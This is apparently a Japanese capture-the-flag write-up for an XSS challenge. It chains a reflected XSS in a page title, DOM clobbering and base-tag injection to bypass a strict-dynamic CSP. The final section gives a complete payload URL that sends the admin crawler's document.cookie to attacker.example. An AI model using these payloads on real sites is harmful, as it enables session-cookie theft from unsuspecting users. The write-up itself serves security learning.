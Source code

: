 # Writeup

## 方針

この問題は Admin のクローラの Cookie 中にフラグが保持されることから、XSS 問題であることが察される。
また CSP が以下のような PHP コードにより設定されている。

```php
$nonce = base64_encode(random_bytes(20));
header("Content-Security-Policy: default-src 'none'; script-src 'nonce-${nonce}' 'strict-dynamic' 'sha256-nus+LGcHkEgf6BITG7CKrSgUIb1qMexlF8e5Iwx1L2A='");
```

この CSP の場合、せいぜい攻撃可能性が生まれるとしたら、`strict-dynamic` のせいであろう。

## 脆弱性

ページ中には以下のようなコード片が存在する。
ここには明らかな Reflected XSS 脆弱性が存在する。

```php
    <title>Best somen for <?= isset($_GET["username"]) ? $_GET["username"] : "You" ?></title>
```

また以下の箇所にも `innerHTML` への代入があり、かつ代入値は URL 中のクエリパラメータから来ているため、ここには DOM-based XSS 脆弱性がありそうだ。

```html
<script nonce=" <?= $nonce ?>">
    const choice = l => l[Math.floor(Math.random() * l.length)];

    window.onload = () => {
        const username = new URL(location).searchParams.get("username");
        const adjective = choice(["Nagashi", "Hiyashi"]);
        if (username !== null)
            document.getElementById("message").innerHTML = `${username}, I recommend ${adjective} somen for you :-P`;
    }
</script>
```

## 方針

CSP の制限により、インラインのコード実行はできない。
なので `<title>` タグ内の Reflected XSS から有効な `<script>` を挿入するのは難しそうである。

しかし DOM-based XSS については、`strict-dynamic` が指定されている今回の場合において、次の条件を満たせるなら任意 JavaScript 実行に繋げられる。

- 条件 1: `document.getElementById("message")` が `<script>` タグを指している。
- 条件 2: クエリパラメータの `username` に実行したい JavaScript が自由に指定できる。

## 条件 1

これは愚直には満たされていない条件だが、DOM Clobbering により解決できる。
クエリパラメータ `username` の値に `<script id=message></script>` を含めておけば、これが `<title>` タグ内の Reflected XSS 経由でページ中に挿入され、`document.getElementById("message")` が `<script>` タグを指すようになるためである。

## 条件 2

いまページ中でロードされている `/security.js` は次のような JavaScript コードである。

```js
console.log('!! security.js !!');
const username = new URL(location).searchParams.get("username");
if (username !== null && ! /^[a-zA-Z0-9]*$/.test(username)) {
    document.location = "/error.php";
}
```

これらには HTML タグの挿入や JavaScript の実行に繋がりそうなコード片が含まれていない。
むしろ GET パラメータ中の `username` `[a-zA-Z0-9]` 以外の文字が存在した場合、リダイレクトを起こしてしまう。
この挙動により、愚直には条件 2 を満たせない。

しかしこれは base tag injection により解決することができる。
クエリパラメータ `username` の値に以下のような `<base>` タグを含めておけば、これが `<title>` タグ内の Reflected XSS 経由でページ中に挿入され、その後にロードされる `/security.js` の読み出し元が `http://hoge.example/security.js` となり、上記の JavaScript コードがロードされなくなるからである。

```html
</title><base href="http://hoge.example">
```

## 解答

このように DOM Clobbering + base tag injection を組み合わせることで、任意の JavaScript 実行が達成できる。

例えば次のような URL にアクセスすると、Cookie の値が `http://attacker.example` に送信される。

```
https://ホスト名/?username=document.location=`http://attacker.example/?q=${encodeURIComponent(document.cookie)}`;%20//%20%3C/title%3E%3Cscript%20id=%22message%22%3E%3C/script%3E%3Cbase%20href=%22http://example.com%22%3E
```

URL エンコードされていると分かりにくいが、具体的には次のような値がクエリパラメータ `username` に指定されている。

```html
document.location=`http://attacker.example/?q=${encodeURIComponent(document.cookie)}`;// </title><script id=message></script><base href="http://hoge.example">
```